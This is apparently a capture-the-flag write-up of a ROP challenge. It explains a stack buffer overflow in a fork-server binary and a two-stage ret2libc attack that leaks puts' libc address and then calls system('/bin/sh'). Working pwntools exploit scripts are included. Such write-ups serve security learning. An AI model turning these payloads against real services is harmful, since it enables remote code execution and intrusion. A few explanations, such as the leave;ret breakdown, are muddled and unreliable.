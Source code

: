 # ROP Challenge 

Provided with a libc binary and a binary file


Checking the security enabled on the binary during copilation

![Screenshot 2024-10-28 104653](https://github.com/user-attachments/assets/f0326a52-928e-4922-ba15-2bfd016bd329)


This shows that there’s no stack canary, the stack is non-executable, and there’s no PIE enabled, so ASLR won’t be an issue when working with this binary.

Continuing with the binary analysis, I ran it to observe its behavior. It repeatedly prompts for an address, suggesting a while loop and an expected input.

![Screenshot 2024-10-28 105354](https://github.com/user-attachments/assets/01a75f7d-8e0b-44ef-9993-09e671eb9056)


Using GDB, I proceeded to disassemble the main function, as the binary is not stripped.

![Screenshot 2024-10-28 110023](https://github.com/user-attachments/assets/45d999b9-1124-48b8-8fa7-3cbe41c97362)

We can see that the binary sets up a TCP socket and waits for incoming connection requests. This, however, interferes with analyzing the challenge directly. To work around it, I wrote a quick GDB script to allow the function frame to initialize, then bypass the entire socket connection setup.


```
b *main+221

r < ola

set $rip=*main+356
c

```


# Checking Buffer Overflow

supplying a really long input to the binary makes our input overflow the intended buffer assigned for the input into other memory space including rbp and the return address (good thing there is no stack canary). If there is a stack canary we would have had to look a way to leak the canary or bruteforce, since its a fork server.

one of the easiest way to determine where the buffer overflows into the return pointer is to send in a cyclic pattern and check the rsp when it segfaults

![Screenshot 2024-10-28 111601](https://github.com/user-attachments/assets/cbf7a712-452f-4ce4-8580-5b98703b0a36)

# Overflowing the return pointer

Remember *ret* instruction is ? .... it means pop rip , this means the value in rsp at the time of this instruction will end up in rip ; This will serve as the basic of our ROP attack
By calculating the pattern than ends up in the rsp when the binary segfaults we can easily calculate the offset we need to get to the return pointer 
![binary-overflow](https://github.com/user-attachments/assets/88d643bb-577a-4298-b153-8fb8952a1d42)



# Where to return to ?

Now that we control the return address , we can move anywhere in the binary by chaining ROP gadgets but first, lets map out a plan .....

The plan is to get this program to give us a shell access

How do we do that ? 

with the control we have over the stack , we can patch up a ROP chain that indirectly tells the program what to do by carefully pointing a path from one instruction to the next


If I can carefully trigger a syscall in the program and set the arguments correctly, I can make the program execute a shell.

However, checking for syscalls in the binary came up empty-handed, not that I expected it to be that easy, but it's always worth a shot, right? 
![Screenshot 2024-10-28 112832](https://github.com/user-attachments/assets/5cced1c6-1adf-45ab-a869-6c995f9e7773)

This isn’t the end, though!


# Return to libc 

That doesn’t stop our exploit, though. We have plenty of return points available, thanks to libc, which is dynamically linked to our binary.

Since we’re provided with the specific libc version used by this binary, it’s crucial to use it for our exploit to avoid any potential discrepancies in offsets


### leaking the address of libc 

To use gadgets in libc, we need to determine the base address of libc at runtime. Since PIE is enabled for all linked libraries, we’ll have to contend with ASLR.

A reliable way to leak the libc address is by using the program’s puts function (via the PLT) to print the puts address in libc (from the GOT).

You can read more about PLT and GOT here...


 ### making our program run puts(puts)

 -  first, we have to find the puts@got and puts@plt

 - then we set the argument to the puts@plt to puts@got ;

 - setting argument of puts@plt means we have to sets its rdi therefore we have to find the gadget that sets rdi.

![image](https://github.com/user-attachments/assets/1e46192f-0296-4c27-8d8b-87de96b84bdf)

  
  pop rdi; ret suits our purpose perfectly. remember we control the stack, hence we control was will be poped into rdi

  
  So Let's go over our exploit again

  we control return pointer; and we point it to pop rdi
  we set the stack to the value we want in rdi ; puts@got 
  once pop rdi returns it gets return address from rsp which we control; where puts@plt awaits
  the instance puts@plt is called , its argument (rdi), will already contain libc puts address , hence leaking our libc address of puts
  then we restart the binary by setting the next ret's rsp as the *main*'s address
  
  then we restart the binary to read in new input for our second payload


building our exploit to this point


```python
from pwn import *

# context.log_level = 'debug'

offset = b"A" * 72 

rop = ELF("./rop_server")

pop_rdi = p64(0x4011f7) # our rdi gadget 
puts_got = p64(rop.got['puts'])   # puts@got
puts_plt = p64(rop.plt['puts'])   # puts@plt
main_func = p64(0x401395)


print(hex(rop.got['puts']))
print(hex(rop.plt['puts']))



payload = offset + pop_rdi + puts_got + puts_plt + main_func
```

This will send in 72 bytes of 'A's to fill the buffer end everything until the return address, then it will replace the return address with the address of pop_rdi, it continues by filling the next 8 bytes with the value we want in rdi, then the next 8 bytes with the address we want to run after pop_rdi returns, and finally the address of the main function so that the binary restarts .

This chain is facinating right, i follow it by explicitly following and  replacing *leave;ret* with its equivalent instructions

```asm
mov rsp, rbp
pop rbp;
pop rdi;
```

Now that we have the main address of puts in libc, we can calculate the base address of libc by subtracting the static offset of puts within the libc binary



## Second stage Attack

	calling system("/bin/sh")

With the base address of `libc` established, we can now navigate within `libc` without worrying about ASLR.

Remember, in an `x86_64` function call, the first argument is passed in `rdi`. To call our `system` function, we need to set `rdi` to point to a valid shell string.

In our case, we want to execute a shell. We can achieve this by locating the string `"/bin/sh"` within the `libc` binary and using its address.


```
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
```

After getting this address we can factor in the libc base address and chain our ROP as follows

- The offset to fill the buffer and anything up until the return address
- the address of pop_rdi to set the argument to our system function
- The value we want rdi to retain `"/bin/sh"` (argument for system)
- Then the address of sytem


```python
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
print(hex(libc.symbols['puts']))
proc = remote('0.0.0.0', '3001')

proc.writeafter("What is my address?\n", payload + b"\n")

proc.recv(2); #receive \n after 

libc_puts = u64(proc.recv(6).ljust(8, b'\x00'))


print(hex(libc_puts))
print(hex(libc_puts - libc.symbols['puts']))


address = libc_puts - libc.symbols['puts']

libc.address = address


binsh_addr = p64(address + 0x197e34)


system = p64(libc.symbols['system'])

payload2 = offset + pop_rdi + binsh_addr + system

payload2 += p64(libc.symbols['exit']) 

print(payload2)

proc.writeafter("What is my address?\n", payload2 + b"\n")


proc.interactive()
```



## SHELL !
![image](https://github.com/user-attachments/assets/7cbeccf3-f8d9-4461-b6a0-708ae5efc9a8)


